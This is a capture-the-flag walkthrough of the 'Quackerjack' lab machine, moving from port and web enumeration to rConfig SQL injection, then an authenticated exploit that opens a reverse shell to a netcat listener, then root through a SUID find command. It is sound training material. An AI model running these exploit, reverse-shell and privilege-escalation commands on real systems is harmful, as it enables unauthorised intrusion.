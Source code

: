 ```yaml
---
description: Pg Practice Quackerjack writeup
---
```


# Quackerjack

![](<../../../.gitbook/assets/image (789) (1).png>)

## Nmap

```
sudo nmap 192.168.150.57 -sS -p- -sV 

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  ssl/http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
Service Info: Host: QUACKERJACK; OS: Unix
```

## FTP

I performed a quick check for anonymous login on FTP and was returned a logon error.

![](<../../../.gitbook/assets/image (721).png>)

## SMB

As we have no luck with FTP I then run `enum4linux` against the target to look for users, groups and to perform RID cycling.

```
enum4linux -U -G -r 192.168.189.98
```

Unfortunately `enum4linux` did not return any relevant users information. I also checked null authentication against the target.

```
smbmap -u '' -p '' -R -H 192.168.150.57
```

![](<../../../.gitbook/assets/image (722) (1).png>)

## HTTP

As we have HTTP running on port 80 and 8081 we can run `gobuster` against these ports.

```
gobuster dir -u http://192.168.150.57 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200 -x txt,zip,php
gobuster dir -u https://192.168.150.57:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200 -x txt,zip,php -k
```

![](<../../../.gitbook/assets/image (733).png>)

The default page for 80 brings us to a CentOS Apache test page.

![](<../../../.gitbook/assets/image (734).png>)

On port 8081 we come to a login page for rConfig. As we can see from the landing page rConfig is running on version 3.9.4.

![](<../../../.gitbook/assets/image (723) (1).png>)

## Exploitation

A Google search reveals a multitude of exploits for this for varying versions. I went thought a fair few some of which I could not get to work which are specific to 3.9.4. Eventually I come across a SQL injection exploit.

![](<../../../.gitbook/assets/image (724).png>)

{% embed url="https://www.exploit-db.com/exploits/48208" %}

Run the exploit with the following syntax.

```
python3 exploit.py https://192.168.150.57:8081
```

![](<../../../.gitbook/assets/image (725).png>)

We manage to extract a hash. I identified this as a MD5 hash and was not able to crack with `John` using the rockyou.txt. I ended putting the hash into online databases to find a match.

{% embed url="https://www.md5online.org/md5-decrypt.html" %}

![](<../../../.gitbook/assets/image (726).png>)

We now have the following credentials for rConfig.

```
admin:abgrtyu
```

![](<../../../.gitbook/assets/image (735).png>)

## Exploitation (Authenticated)

Now that we are authenticated we can search for authenticated exploits. I soon come across an authenticated remote code execution exploit for 3.9.3. Whilst not intended for the version we have 3.9.4 we can try it anyway.

{% embed url="https://www.exploit-db.com/exploits/47982" %}

Looking at the exploit code looks like we supply the arguments below and in return the payload will attempt a bash reverse shell back to us.

![](<../../../.gitbook/assets/image (727) (1).png>)

First set up a `netcat` listener on our attacking machine. I am going to use port 80 this is a common port for outbound traffic.

```
sudo nc -lvp 80
```

Then execute the exploit with the following syntax:

```
python3 ./exploit.py https://<Target-IP>:8081 admin abgrtyu <Attacking-IP> 80
```

Once we have run the exploit we should get a shell back on our listener.

![](<../../../.gitbook/assets/image (728) (1).png>)

We confirm we are the apache user.

## Privilege Escalation

In the home directory we have the user 'rConfig'. I grabbed the local.txt flag and then started a `Python SimpleHTTPServer` on my attacking machine. I then uploaded `linpeas.sh` to aid with privilege escalation.

![](<../../../.gitbook/assets/image (729).png>)

After running `linpeas` and going through the results we actually have various potential exploits. I will be focusing on the SUID being set on the find binary.

![](<../../../.gitbook/assets/image (730) (1).png>)

We can check on [GTFObins](https://gtfobins.github.io/gtfobins/find/) for how we cab use the binary for privilege escalation.

![](<../../../.gitbook/assets/image (731).png>)

Lets use the syntax above and call the binary and see if we can escape the restricted shell as root.

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Once we escape we should have a root shell.

![](<../../../.gitbook/assets/image (732).png>)
